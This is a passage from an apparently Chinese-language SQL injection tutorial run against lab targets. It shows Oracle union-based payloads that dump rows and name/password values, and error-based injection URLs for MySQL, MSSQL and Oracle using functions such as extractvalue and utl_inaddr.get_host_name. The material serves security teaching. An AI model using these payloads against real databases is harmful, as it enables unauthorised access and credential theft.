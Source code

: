 *   select column_name from user_tab_columns
    
    where table_name=‘DEMO’ and rownum=1
    
    and column_name not in (‘ID’)
    

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGlQlKUNUANsicZkt6EHtnjk5OiacBkfuoHKBia0QTzZ5jOKyR2Vef7ib5IvQ/640?wx_fmt=png)

**第九步，爆数据。**  
爆数据通常是用户名和密码，这里可以使用 CONCAT 拼接函数。如果密码被 MD5 加密，我们进行相关解密即可。

```
-1 union select null, (select CONCAT(NAME, AGE) FROM DEMO where rownum=1 ),null,null from dual--
```

最终输出结果如下图所示：

*   eastmount 28
    

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGlt6ejfYGMwK9aj0naFGcswNSiaMd5t5NO8p128xC0fNGu6yhibSy3EFIg/640?wx_fmt=png)

我们同样可以获取其他表信息。

```
-1 union select null, (SELECT CONCAT("name","password") FROM STU where rownum=1 ),null,null from dual--
```

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGluMuj7SIFVGiadtdRHvvukPaw1MkYpstyuczcXALDMKib4LiaVTezVUhLw/640?wx_fmt=png)

写到这里，联合注入就介绍完毕，希望对您有帮助！

四. 报错注入实践
=========

SQL 报错注入旨在利用数据库的某些机制，通过构造错误条件，使得我们想要的信息出现在报错信息中。不同类型数据库的报错注入如下：

*   MYSQL  
    主要利用报错函数，如 extractvalue、updatexml、floor 等  
    http://192.168.2.101/sqli-labs-master/Less-5/?id=2’
    
    and extractvalue(1,concat(0x7e,(database()),0x7e))%23+
    
*   MSSQL  
    使用比较运算符，如 [执行语句]>1、[报错语句]=1 等  
    http://192.168.23.132/less-1.asp?id=1’
    
    and (select @@version)=1–
    
*   ORACLE  
    同上，但是需要借助于某些函数，如 utl_inaddr.get_host_name、ctxsys.drithsx.sn、XMLType 等  
    http://192.168.1.6:81/orcl.php?id=1
    
    and 1=utl_inaddr.get_host_name(
    
    (select user from dual)) –
    

Oracle 报错函数及对应含义如下表所示：
